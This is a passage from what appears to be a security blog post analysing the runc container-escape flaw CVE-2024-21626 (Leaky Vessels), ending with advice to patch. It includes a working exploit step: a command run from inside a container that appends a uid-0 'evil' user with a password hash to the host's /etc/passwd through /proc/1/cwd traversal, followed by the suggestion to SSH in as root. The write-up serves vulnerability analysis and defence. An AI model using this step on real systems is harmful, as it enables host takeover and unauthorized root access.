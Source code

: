 mosquitto:x:131:133::/var/lib/mosquitto:/usr/sbin/nologin
inetsim:x:132:134::/var/lib/inetsim:/usr/sbin/nologin
_gvm:x:133:136::/var/lib/openvas:/usr/sbin/nologin
kali:x:1000:1000:,,,:/home/kali:/usr/bin/zsh
uuidd:x:134:138::/run/uuidd:/usr/sbin/nologin


...



Notice the last entry for your reference.



Now we will modify this file and add a new user named evil with the password hash we generated earlier:

root@90c4baf8b91f:.# echo 'evil:$6$wow$ANbY2P/OCVnraBHDL9W2Pc1rS3mV9K9fwC8yQaj6KlP.F0Nrhgg05HXyP2V.ZhdXDeLCcSwc4dy8c27qwQlb40:0:0:evil user:/root:/bin/bash' >> /proc/1/cwd/../../../../../../../../etc/passwd




Now, back to the Kali machine, check the contents for the /etc/passwd file:



...



Notice that the file is modified and has a new user named evil with the password set to passwd. This new user has the uid and gid set to 0 (that is the almighty root user).



Now depending on what all services are available on the underlying host, an attacker can gain root access to the underlying machine.



One of the example scenarios is as follows:

SSH is running on the underlying machine. If this is the case, the attacker can SSH into the underlying host machine as the evil user and get root privileges.



Conclusion


In this post, we analyzed CVE-2024-21626, a part of the Leaky Vessels flaws recently discovered in the runc component.



It allows attackers to escape the isolated environment of the container, granting unauthorized access to the host operating system and potentially compromising the entire system as we just saw with our setup.



It is advised to patch your systems by updating the docker and runc components to their respective latest versions as soon as possible.


